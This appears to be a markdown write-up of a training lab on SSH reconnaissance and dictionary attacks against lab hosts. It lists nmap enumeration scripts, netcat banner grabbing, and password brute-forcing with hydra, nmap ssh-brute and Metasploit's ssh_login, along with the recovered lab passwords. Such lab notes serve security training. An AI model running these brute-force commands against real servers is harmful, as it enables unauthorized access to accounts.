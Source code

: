 # SHH (Secure Shell)

`ip a`

`ping 192.28.51.3`

`nmap 192.28.51.3`

`nmap 192.28.51.3 -sV O`: runnng OpenSSH 7.2p2

`ssh root@192.28.51.3`

`nc 192.28.51.3`

`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`

`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`

`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`

`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`

`ssh student@192.28.51.3`


We want to enumerate the version of the SSH server:
`nmap 192.28.51.3 -sV O`
**It runs OpenSSH 7.2p2

We want to fetch the banner using netcat:
`nc 192.28.51.3`
**SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6**

We need to enumerate the encryption_algorythms:
`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`
**6**

We want to find out by how many SSH servers the host key is being used:
`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`
**The SSH uses the RSA public key (output with above command) to securely ecrypt client connecting to it.

We want to find out which authentification method is being used by the SSH server for user "student".
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
**no auth. method is being used.**

We want to find out the same again, but this time with admin.
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`
**publickey, password**

We want to fetch the flag from /home/student/FLAG by using nmap ssh-run script:
`nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,
ssh-run.username=student,ssh-run.password=" 192.201.39.3`

## SSH Dictionary Attack

`ip a`

`ping 192.35.81.3`

`nmap 192.35.81.3`

`nmap 192.35.81.3 -sV -p 22`

We want to find out the password of the user "student":

`gzip -d /usr/share/wordlists/rockyou.txt.gz`

`hydra -l student -P /usr/share/wordlists/rockyou.txt 192.35.81.3 ssh`

**friend**

`ssh student@192.35.81.3`: not much there, so we try administrator:

We want to find out the passwort of user "administrator" using nmap scripts with specific pw dictionary:

`echo "administrator" > user`

`nmap 192.35.81.3 -p 22 --script ssh-brute --script-args userdb=/root/user`

**password: sunshine**

Now we want to find the password of user "root" using ssh_login metasploit module with userpass dictionary

`msfconsole`

  msf5: `use auxiliary/scanner/ssh/ssh_login`
  msf5: `options`
  msf5: `set rhosts 192.35.81.3`
  msf5: `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
  msf5: `set STOP_ON_SUCCESS true`
  msf5: `set verbose true`
  msf5: `options`
  msf5: `run`
  msf5: `exit`
**password: attack**
We wanna establish a ssh connection with the password we enumerated:
`ssh root@192.35.81.3`: insert attack
after login, we recieve the message of the day:
_SSH recon dictionary attack lab_
Questions

1. Find the password of user “student” using hydra.
2. Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
3. Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
4. What is the message of the day? (Printed after the user logs in to the SSH server).

